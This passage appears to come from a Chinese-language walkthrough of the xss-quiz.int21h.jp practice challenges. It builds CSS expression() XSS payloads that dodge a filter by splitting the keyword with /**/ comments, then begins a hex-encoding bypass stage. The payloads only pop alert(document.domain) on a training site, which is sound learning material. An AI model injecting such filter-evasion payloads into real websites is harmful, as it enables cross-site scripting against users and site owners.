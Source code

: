 查看回显

```
background-image:xxx(javaxxx:alert(document.domain));
```

查看源码

```
<input type="text" name="p1" size="60" style="background-image:xxx(javaxxx:alert(document.domain));" value="background-image:xxx(javaxxx:alert(document.domain));"> 
```

> 发现有过滤，无法执行
>
> 在 IE 中的 css 可以使用 expressions ,用 /**/ 作为注释绕过，注释会替换为空

构造 payload

```
hello:expre/**/ssion(alert(document.domain));
```

> 成功注入，但是发现代码一直在执行

修改 payload，添加逻辑

```
hello:expre/**/ssion(if(!window.x){alert(document.domain);window.x=1;})
```

>为如果 window.x 不成立（！表示取反，默认判断为条件成立，则执行代码，加上！表示不成立）则执行{}内的代码，{}中对 window.x 赋值为 1，所以执行 1 次后 if 条件不成立代码不会重复执行。

### 1.3 使用编码绕过过滤

###  1.3.1 Stage #15 十六进制绕过

> https://xss-quiz.int21h.jp/stage__15.php

**查找可控参数**

打开拦截，提交 hello

```
p1=hello
```

> 只有一个可控参数

**查看回显位置**

关闭拦截，查看源码

```
<script>document.write("hello");</script>
hello
```

> 两处回显

**判断能否执行 js 代码**
